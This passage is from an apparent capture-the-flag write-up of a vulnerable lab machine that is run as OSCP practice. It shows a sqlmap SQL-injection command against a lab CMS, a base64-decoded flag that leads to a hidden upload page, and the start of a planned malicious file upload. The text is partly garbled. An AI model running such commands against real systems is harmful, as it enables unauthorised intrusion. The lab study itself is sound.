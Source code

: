seems to be routes from our page because we saw them here in port 80


```php

IMF CMS
Menu: Home | Upload Report | Disavowed list | Logout

Welcome to the IMF Administration.

```
let's try the new ones which is ```tutorials``` , ```tutorials-incomplete``` and upload

i got to tell you that actually sqmap will automate this attack but in OSCP we are no able to use SQL map so for that reason is better to try to do almost all the things manually 

for example 

```bash
❯ sqlmap -u "http://192.168.100.52/imfadministrator/cms.php?pagename=home" --cookie "PHPSESSID=rftk9b1ducfunqjmrks8bcfb04" --dbs --dbms=mysql --batch
``` 

well trying the routes that we saw before let's try them 
```bash
http://192.168.100.52/imfadministrator/cms.php?pagename=tutorials-incomplete
```
here we found a flag in QR code 

```php 
flag4{dXBsb2Fkcjk0Mi5waHA=}

```

seems to be base64 encode let;s encrypt it 


```bash 
❯ echo "dXBsb2Fkcjk0Mi5waHA=" | base64 -d; echo
uploadr942.php

```

seems to be a route let's get them 

```php
http://192.168.100.52/imfadministrator/uploadr942.php
```
output 

```bash 
Intelligence Upload Form
File to upload: Sin archivos seleccionados

upload
```

seems that we can upload an LFI let's try it 

first of all we need to create the LFI 
